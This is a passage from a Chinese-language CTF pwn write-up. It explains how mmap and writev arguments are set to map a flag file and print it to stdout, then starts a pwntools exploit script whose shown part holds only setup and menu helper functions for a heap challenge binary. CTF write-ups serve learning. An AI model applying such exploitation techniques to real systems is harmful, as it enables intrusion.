    * addr ==> 映射的目的地址
   * len ==> 映射的长度
   * port ==> 映射区域的保护方式 , 允许读取映射区域
   * flags ==> 控制映射区域的特性
   * fd ==> 映射文件的文件描述符
   * offset ==> 上面文件中开始映射的偏移量

   这里经过实验，`addr的参数必须按照0x10000对齐`，否则无法完成映射。这里的len可以不用对齐，offset 必须对齐为0，port必须改为1（可读）。

   ![image-20240909115622014](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091156183.png)

   ![image-20240909121305952](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091213077.png)

   writev函数系统调用的参数如下：

   * fd ==> 要写入文件的文件描述符
   * iovec ==> 指向一个`结构体数组`，每一个元素 描述一段内存空间 地址 + 大小
   * count ==> 内存空间的数量，即iovec结构体数组中的`元素数量`

   这里的iovec指针，即`rsi寄存器的值`，要`指向一个地址`，该地址被解释为iovec结构体数组，每个结构体里面存储`一段内存空间的起始地址 和 其长度` 。即为mmap映射的内存其实地址 和 要输出的长度。fd为1 表示为标准输出stdout

   ![image-20240909121552160](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091215415.png)![image-20240909121641340](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091216478.png)

   如果将iovec结构体数组的成员变成两个都是mmap映射的内存空间，`count改为2`，则会输出flag两遍：

   ![image-20240909122358242](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091223604.png)

   ![image-20240909122506257](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091225474.png)

   ![image-20240909122622893](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091226014.png)

7. 完整的EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       gdb.attach(p)
   
   # p = remote("node4.anna.nssctf.cn",28566)
   p = process("./pwn")
   libc = ELF('libc.so.6')
   ld = ELF("ld.so")
   # libc = ELF('/home/kali/Desktop/source_code/glibc-2.32_lib/lib/libc-2.32.so')
   # elf = ELF("./pwn")
   
   def add(content):
       p.sendlineafter(b'>','1')
       p.sendlineafter(b':',content)
   
   def edit(index,content):
       p.sendlineafter(b'>','2')
       p.sendlineafter(b':',str(index).encode())
       p.sendafter(b':',content)
   
   def show(index):
       p.sendlineafter(b'>',b'4')
       p.sendlineafter(b':',str(index).encode())
   
   def free(index):
       p.sendlineafter(b'>','3')
       p.sendlineafter(b':',str(index).encode())
   
   ```